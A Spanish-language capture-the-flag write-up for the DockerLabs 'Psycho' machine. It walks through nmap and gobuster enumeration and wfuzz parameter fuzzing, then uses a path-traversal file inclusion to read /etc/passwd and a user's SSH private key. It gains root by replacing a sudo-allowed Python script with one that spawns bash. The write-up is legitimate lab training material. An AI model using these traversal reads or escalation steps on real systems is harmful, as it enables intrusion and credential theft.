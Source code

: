  <h1 align="center">Psycho</h1>
 
## 0. HERRAMIENTAS

- Gobuster
- Wfuzz
- LFI
- Binario perl
- Importación libreria Python (OS)

## 1. ENUMERACIÓN

En DockerLabs no hace falta buscar la ip, ya que viene dada por la interfaz docker0, siempre es 172.17.0.2

Si quisiéramos buscar la máquina lo haríamos de la siguiente manera

![image](https://github.com/user-attachments/assets/56274d5d-88b9-4cc9-b38a-e9be339936d8)


Hago un escaneo de puertos

```jsx
sudo nmap -p- --open -sS -sC -sV --min-rate=5000 -vvv -n -Pn -oN escaneo 172.17.0.2
```

![image](https://github.com/user-attachments/assets/928ae7cf-0a59-410c-9541-f0d8e32d2dc1)


Vemos el puerto 80 abierto, pero la pagina de inicio no lleva a ningún lado ni a ningún login

![image](https://github.com/user-attachments/assets/03a3af0b-94f0-4197-a347-7f008656b146)


El código fuente tampoco muestra nada. 

![image](https://github.com/user-attachments/assets/28b2f82a-e281-40cf-a138-4e8b1d77c3bf)


- Con gobuster hago un escaneo de directorios

```jsx
sudo gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u '[http://172.17.0.2](http://172.17.0.2/)' -x 'html,txt,php,py'
```

![image](https://github.com/user-attachments/assets/f38bcd2b-57e1-45a4-82b6-a7d1ade7a72f)


Descubrimos el directorio assets, accedemos a la url y vemos que solo contiene un archivo de imagen que no nos lleva a ninguna parte

![image](https://github.com/user-attachments/assets/3d2505b3-c2cf-4f8f-a547-cdbba5a2df11)


- Probamos haciendo wfuzz a ver si podemos hacer ejecución de comandos a través de algún parámetro.

```jsx
sudo wfuzz -c --hl=62 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt http://172.17.0.2/index.php?FUZZ=whoami             
```

![image](https://github.com/user-attachments/assets/27143ba3-806e-40f7-b388-f262a30799b8)


No devuelve nada, probaremos a hacer a ver si se puede hacer un LFI:

```jsx
sudo wfuzz -c --hl=62 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt http://172.17.0.2/index.php?FUZZ=../../../../../../../../etc/passwd
```

![image](https://github.com/user-attachments/assets/c1772729-1d6c-4f1b-911f-8e7169f7b31c)


Vemos que con el parametro secret es susceptible de LFI

comprobamos con curl 

```jsx
curl http://172.17.0.2/index.php?secret=../../../../../../../etc/passwd
```

![image](https://github.com/user-attachments/assets/89551e72-ba6e-464c-943e-0e8d354c8c3d)


Tenemos el los usuarios 

- vaxei
- luisillo

## 2. COMPROMISO DEL ENTORNO

Intentamos buscar la clave RSA de esos 2 usuarios a través del LFI

```jsx
curl http://172.17.0.2/index.php?secret=../../../../../../../home/vaxei/.ssh/id_rsa
```

![image](https://github.com/user-attachments/assets/62e58a10-de44-4079-8b2c-9c0b1b1d3853)


Obtenemos el rsa de ssh de vaxei, de luisillo no encontramos nada

creamos un archivo con la rsa obtenida y probamos la conexión 

aplicamos permisos 600: chmod 600 rsa_key

![image](https://github.com/user-attachments/assets/f31e0afb-ecb0-4363-a308-85a7037124f1)


Probamos el acceso por ssh y accedemos correctamente

![image](https://github.com/user-attachments/assets/b8f432c8-aa92-4cdf-88fe-41c329eec7be)


Hacemos un sudo -l para comprobar que se puede ejecutar perl con el usuario luisillo

![image](https://github.com/user-attachments/assets/29031b12-33cc-4e6a-a4df-1d82487fc547)


Buscamos en GTFOBINS y encontramos

![image](https://github.com/user-attachments/assets/123da296-8ed7-4bcb-909d-f7ae4d7932d4)


## 3. ESCALADA DE PRIVILEGIOS

Vemos que se puede ejecutar con el usuario luisillo el script /opt/paw.py sin contraseña

![image](https://github.com/user-attachments/assets/9c468b31-4fab-49fa-b2b7-49d02e9a37c9)


Vemos el script

![image](https://github.com/user-attachments/assets/8c265e9a-0e1e-4db9-91a9-648852ec9253)

Una forma rápida de ganar root es renombrar el archivo y generar un nuevo [paw.py](http://paw.py) con el siguiente codigo

```jsx
import os
os.system("/bin/bash")
```

![image](https://github.com/user-attachments/assets/edaad069-69da-48b0-8ec0-df8a432619d5)


Ya obtenemos root

![image](https://github.com/user-attachments/assets/6d8bc57d-f83b-473c-a178-b814cfd85625)

